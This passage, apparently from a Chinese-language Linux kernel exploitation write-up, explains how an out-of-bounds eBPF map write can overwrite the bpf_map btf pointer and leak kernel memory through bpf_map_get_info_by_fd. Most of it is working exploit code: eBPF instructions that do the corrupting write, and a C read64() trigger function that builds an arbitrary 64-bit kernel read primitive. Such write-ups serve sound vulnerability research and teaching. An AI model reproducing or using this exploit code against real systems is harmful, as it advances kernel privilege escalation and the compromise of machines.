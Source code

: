 

##### 任意地址读

在`bpf_map`中还有一个重要的结构体指针`struct bpf* btf`， 它指向一个包含*调试信息*的结构体，通常情况下，该指针是没有初始化的（NULL），也就提供了一个*坑位*，可以用于写入任意地址，并且不会对内核其他功能产生影响。

函数`bpf_map_get_info_by_fd`，有如下代码

```c
	if (map->btf) {
		info.btf_id = btf_obj_id(map->btf);
		info.btf_key_type_id = map->btf_key_type_id;
		info.btf_value_type_id = map->btf_value_type_id;
	}
```

即，当我们能越界写`map->btf`为`someaddr - offsetof(struct btf, id)`时，`info.btf_id`将被写入`*(someaddr)`，由于`btf_id`类型是`u32`，这种方式可以每次读取任意地址4bytes的内容。

###### 

修改`bpf_array->bpf_map->btf`（&map + 0x40）为指定地址，利用`bpf_map_get_info_by_fd`可以泄漏`btf->id`（偏移&btf + 0x58）的四字节。

```c
//eBPF code
		// write btf (op=1) 	(write bpf_array->bpf_map->btf)
		BPF_JMP_IMM(BPF_JNE,BPF_REG_7,  1, 22),			
			BPF_ALU64_IMM(BPF_MUL, BPF_REG_6, 0xd0), 	//
			BPF_MAP_GET_ADDR(0, BPF_REG_7),				// r7= &map.elem[0]
			BPF_ALU64_REG(BPF_SUB, BPF_REG_7,BPF_REG_6),	// r7 -= r6 
			BPF_MAP_GET(2, BPF_REG_8),						// r8 = map.elem[2]	(target_addr - 0x58)
			BPF_ST_MEM(BPF_DW, BPF_REG_7, BPF_REG_8, 0),	 // *(u64 *)(r7 + 0) = r8
			BPF_EXIT_INSN(),

//trigger code
// abitary read 64 bytes: 利用 bpf_obj_get_info_by_fd 读取两个4字节并拼接到一起
size_t read64(size_t addr)
{
	char buf[50] = { 0 };
	uint32_t hi_32, lo_32;
	update_elem(0, 0);
	update_elem(1, 1);	//write btf
	update_elem(2, addr - 0x58);	// target addr - 0x58 (offsetof(btf, id))

	write_msg();

	if(bpf_obj_get_info_by_fd(mapfd, 0x50, buf)){
		fail("failed in bpf_obj_get_info_by_fd.");
		return 0;
	}

	// return value in bpf_map_info->btf_id (offset is 0x40)
	lo_32 = *(unsigned int*)(&buf[0x40]);

	update_elem(2, addr - 0x58 + 4);
	write_msg();
	if(bpf_obj_get_info_by_fd(mapfd, 0x50, buf)){
		fail("failed in bpf_obj_get_info_by_fd.");
		return 0;
	}
	hi_32 = *(unsigned int*)(&buf[0x40]);
	return (((size_t(hi_32) << 32)) | lo_32);
}
```
